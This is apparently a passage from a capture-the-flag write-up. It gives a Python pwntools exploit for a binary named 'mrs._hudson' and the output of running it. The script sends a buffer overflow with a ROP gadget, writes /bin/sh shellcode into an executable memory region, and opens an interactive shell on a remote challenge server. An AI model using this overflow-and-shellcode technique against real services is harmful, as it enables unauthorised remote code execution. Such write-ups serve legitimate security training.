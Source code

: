 ```
#First import pwntools
from pwn import *

#Establish the target, and the context so the shellcode can be written
#target = process('./mrs._hudson')
target = remote('178.62.249.106', 8642)
context.binary = ELF('mrs._hudson')

#Read the first line of text
print target.recvline()

#Establish the address needed
scanf  = 0x40066f
memory = 0x601000
gadget = 0x400575

#gdb.attach(target)

#Establish the first payload, and send it
payload0 = "0"*120 + p64(gadget) + p64(memory + 0x70) + p64(scanf)
target.sendline(payload0)

#Establish the second payload, write the shellcode, and send it
payload1 = fit({0x0: asm(shellcraft.sh()), 0x78: p64(memory)})
target.sendline(payload1)

#Drop to an interactive shell, and enjoy /bin/sh
target.interactive()
```

and when we run it:

```
$	python exploit.py 
[+] Opening connection to 178.62.249.106 on port 8642: Done
[*] '/Hackery/asis/mycroft/mrs._hudson'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
Let's go back to 2000.

[*] Switching to interactive mode
$ w
 01:53:20 up 2 days, 17:29,  0 users,  load average: 110.00, 110.00, 110.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
```